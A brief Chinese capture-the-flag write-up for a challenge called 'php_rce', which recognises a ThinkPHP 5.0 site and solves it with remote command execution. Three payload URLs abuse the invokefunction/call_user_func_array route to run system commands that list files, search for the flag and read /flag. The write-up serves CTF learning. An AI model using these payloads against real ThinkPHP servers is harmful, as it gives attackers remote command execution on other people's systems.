

# php_rce
## 题目描述
暂无  

## 思路
点开题目链接：  
http://220.249.52.133:42857  
  

根据页面，应该是 ThinkPHP V5.0 的漏洞。搜了一下，果然有。根据漏洞构造一个 payload，来查看目录下都有什么文件：  
http://220.249.52.133:42857/?s=index/\think\App/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=dir  
  

似乎没有想要的东西，再构造一个，看看有没有和 flag 相关的文件：  
http://220.249.52.133:42857/?s=index/\think\App/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find / -name "*flag"  
  

不错，直接查看这个文件：  
http://220.249.52.133:42857/?s=index/\think\App/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag  
  
得到 flag。  

## 相关链接
ThinkPHP 5.x远程命令执行漏洞分析与复现：  
https://www.cnblogs.com/backlion/p/10106676.html
